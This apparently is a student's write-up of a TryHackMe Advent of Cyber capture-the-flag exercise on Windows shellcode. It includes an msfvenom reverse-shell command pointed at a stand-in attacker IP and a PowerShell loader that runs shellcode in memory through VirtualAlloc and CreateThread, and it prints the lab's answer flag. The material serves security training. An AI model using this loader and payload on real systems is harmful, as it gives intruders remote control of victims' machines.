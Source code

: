 # TryHackMe Advent of Cyber - Day 8: Shellcodes of the world, unite!

Glitch, a skilled hacker, was preparing to showcase his shellcode script at a tech conference, unaware that hidden in his home system was a valuable research paper sought by Mayor Malware's henchmen.

---

## Learning Objectives

1. Understand the basics of shellcode writing.
2. Generate shellcode for reverse shells.
3. Execute shellcode using PowerShell.

---

## Essential Terminologies

### Shellcode
- Code injected during exploits (e.g., buffer overflow attacks).
- Often used to execute arbitrary commands or gain control of a machine.
- Typically written in **assembly language**.

### PowerShell
- A Windows scripting language and shell used for automation.
- Exploited by attackers for its deep system access and memory-based script execution.

### Windows Defender
- Built-in security software to detect malicious scripts.
- Bypassed through obfuscation or reflective injection (memory-based execution).

### Windows API
- Provides access to system-level functions like memory management and networking.
- Key functions used in exploitation:
    - `VirtualAlloc`: Allocates memory for shellcode.
    - `CreateThread`: Creates threads to execute shellcode.
    - `WaitForSingleObject`: Pauses execution until a thread finishes.

### Reverse Shell
- A connection initiated by the target system to the attacker’s machine.
- Used to establish remote access.

---

## Generating Shellcode

To generate shellcode for a reverse shell:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=1111 -f powershell
```
- **Payload**: `windows/x64/shell_reverse_tcp` for a reverse shell on a Windows machine.
- **LHOST**: IP address of the AttackBox.
- **LPORT**: Port listening for the reverse shell (e.g., `1111`).
- **Format**: PowerShell for script execution.

---

## Executing Shellcode

### PowerShell Script
The shellcode is executed using a PowerShell script that:
1. Allocates memory for the shellcode using `VirtualAlloc`.
2. Copies the shellcode into memory.
3. Executes the shellcode using `CreateThread`.
4. Waits for the shellcode to finish using `WaitForSingleObject`.

### Script Example
```powershell
# Define Windows API functions
Add-Type -TypeDefinition @"
using System.Runtime.InteropServices;
public class WinAPI {
    [DllImport("kernel32.dll")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll")] public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

# Load and execute shellcode
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
[IntPtr]$addr = [WinAPI]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thread = [WinAPI]::CreateThread(0, 0, $addr, 0, 0, 0)
[WinAPI]::WaitForSingleObject($thread, 0xFFFFFFFF)
```

Replace `SHELLCODE_PLACEHOLDER` with the shellcode generated using msfvenom.

---

## Troubleshooting and Updates

### Issue: Altered Shellcode
Mayor Malware’s team tampered with Glitch’s shellcode by modifying the IP and port.

### Solution
1. Identify the tampered shellcode.
2. Update the **IP** to `ATTACKBOX_IP`.
3. Update the **port** to `4444`.
4. Regenerate or manually correct the shellcode.

---

## Conclusion

Glitch’s adventure demonstrates the power of shellcode and the importance of securing critical scripts. Understanding tools like PowerShell and msfvenom helps identify vulnerabilities and defend against exploitation.

---

## Questions

1. What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the C:\Users\glitch\Desktop directory. You can view the content of the flag by using the command type C:\Users\glitch\Desktop\flag.txt.
    >AOC{GOT_MY_ACCESS_B@CK007}